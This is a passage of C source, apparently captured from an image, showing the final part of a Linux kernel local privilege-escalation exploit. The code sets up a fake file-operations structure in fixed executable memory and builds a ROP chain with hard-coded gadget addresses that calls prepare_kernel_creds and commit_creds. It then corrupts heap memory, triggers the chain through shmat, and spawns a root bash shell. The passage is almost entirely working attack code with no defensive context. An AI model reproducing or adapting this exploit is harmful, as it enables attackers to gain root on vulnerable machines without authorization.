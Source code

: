 ```

    read(fd[0],readbuf,192*2); //set llseek point

    map = mmap((void *)0x5a000000,0x1000,PROT_WRITE|PROT_READ | PROT_EXEC, 
MAP_SHARED|MAP_ANONYMOUS|MAP_FIXED, -1, 0);
    int **shm_file;
    shm_file = (int **)(buf+0x194); //fack fop
    *shm_file = (void *)0x5a000000;


    int rop[11];
    rop[0] = 0xc1071395; //xchg eax,esi;ret
    rop[1] = 0xc1431272; //pop eax;ret
    rop[2] = 0; //eax
    rop[3] = prepare_kernel_creds;
    rop[4] = commit_creds;
    rop[5] = 0xc1071395; //xchg eax,esi;ret
    rop[6] = 0xc1020eb1; //xchg eax,esp;ret
    rop[7] = 0;
    rop[8] = 0;
    rop[9] = 0;
    rop[10] = 0xc1380373; //xchg eax,esp;ret 0x100

    //  xchg eax,esp;ret
    //  xchg eax,esi;ret  ;
    //  pop eax;ret;  0xc1431272
    //  perpare_kernel_creds
    //  commit_cred
    //  xchg eax,esi;ret
    //  xchg eax,esp;ret

    memcpy(map,rop,4*30);  //map is fack fop

    memcpy(buf+0x180,rop,4); //after xchg eax,esp . ret
    memcpy(buf+0x280,rop,4*30);//fack  stack
    write(fd[0],buf,oversize);

    printf("[+] heap write done\n");
    printf("[+] read to triggle shellcode\n");  

    ret = (int)shmat(shmid,NULL,0); //triggle

    if(ret!=0)
        printf("[+] OK,ready to get root!\n   press any key\n");
    getchar();
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);
    execl("/bin/bash","/bin/bash",NULL);
    return 0;
}

```
